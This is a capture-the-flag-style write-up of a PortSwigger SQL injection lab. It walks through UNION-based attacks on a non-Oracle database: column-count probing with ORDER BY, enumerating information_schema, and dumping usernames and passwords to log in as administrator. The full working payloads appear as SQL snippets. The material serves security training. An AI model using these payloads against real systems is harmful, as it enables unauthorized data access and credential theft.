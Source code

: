 # 🧠 Lab Title: SQL Injection Attack, Listing the Database Contents on Non-Oracle Databases
## 🔍 Category
SQLI
## 🎯 Objective
> Log in as the administrator user.

## 🧰 Tools Used
- Notepad , Burpsuite

## 🚀 Exploitation Steps
#### Observe the Description
From the lab description, we know that the database is not Oracle.  
**What does this mean?** It means that the payloads we will use will not be Oracle-based, like this: `SELECT banner FROM v$version`.  
Instead, the payloads will be for MySQL, Microsoft SQL Server, or PostgreSQL. Fortunately, we have this [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).

Someone might ask, **How do we retrieve the admin password?**  
Good question! Since it’s not an Oracle database, we have to use `information_schema.tables` and `information_schema.columns`.  
**What is information_schema?**  
It’s a standard schema in relational database management systems (in contrast to non-relational databases like NoSQL) that provides metadata about each database. It acts as a catalog mapping metadata about tables, views, stored procedures, columns, constraints, and other database objects. I suggest looking at this [article](https://database.guide/understanding-information_schema-in-sql/) for more details.

#### Access the Lab
> Click on `ACCESS THE LAB`

#### START HACKING!!!
1) First, capture the request. We know that the vulnerability is in the product category, so capture that request first.

2) Let's determine the number of columns to perform a UNION-based attack.  
We try:  
```sql
' ORDER BY 1--
```  
It returns true, so we continue:  
```sql
' ORDER BY 2--
```  
Still good, so continue:  
```sql
' ORDER BY 3--
```  
We get an internal server error, which means there are only 2 columns.

3) From the cheat sheet, to retrieve database info from information_schema we use:  
```sql
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns
``` 
So the payload will be:  
```sql
' UNION SELECT table_name, NULL FROM information_schema.tables--
```  
`table_name` is a placeholder to retrieve all table names.

4) We found a user table by searching for "users" with CTRL+F, so the payload will look like this:  
```sql
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_wzbtjt'--
```

5) We found password and username columns, so let's retrieve them:  
```sql
' UNION SELECT username_uwunbl, password_fxvjqe FROM users_wzbtjt--
```  
And BOOM! We got the password. Let's log in and solve the lab.

## 🧵 Reflection
> What is information_schema?  
> How do you retrieve data from a non-Oracle database?

